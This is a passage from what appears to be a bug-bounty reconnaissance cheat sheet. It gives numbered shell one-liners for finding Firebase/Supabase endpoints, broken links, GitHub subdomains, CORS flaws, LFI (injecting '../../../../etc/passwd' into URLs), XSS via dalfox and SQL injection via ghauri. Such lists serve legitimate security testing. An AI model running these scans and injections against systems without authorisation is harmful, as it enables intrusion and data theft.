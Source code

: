 ## 🔑 31. Firebase / Supabase
```bash
cat js.txt | grep -Ei "firebaseio.com|supabase.co"
```

## 🚨 32. Broken Link Hijack
```bash
linkfinder -i https://example.com -o cli | grep 404
```

## 📌 33. GitHub Subdomain Discovery
```bash
github-subdomains -d example.com -t GITHUB_TOKEN -o github_subs.txt
```

## 🔐 34. CORS Misconfig (Advanced)
```bash
python3 corscanner.py -i alive.txt -t 20
```

## 🎯 35. LFI/RFI Discovery
```bash
cat all_urls.txt | gf lfi | qsreplace "../../../../etc/passwd" | httpx -silent
```

## ⚔️ 36. XSS via Dalfox
```bash
dalfox file all_urls.txt --custom-payload payloads/xss.txt --output xss_report.txt
```

## 📦 37. Advanced SQLi
```bash
ghauri -l filtered.txt --batch --level 5 --confirm --tamper randomcase --timeout 10 --delay 0
```

## 📑 38. Output Management
```bash
mkdir results
mv *_output.txt results/
mv *_urls.txt results/
mv *_report.txt results/
```

---

# 📁 Bonus Tools to Integrate
* gauplus
* arjun
* kxss
* jsparser
* gf-patterns
* URLextract
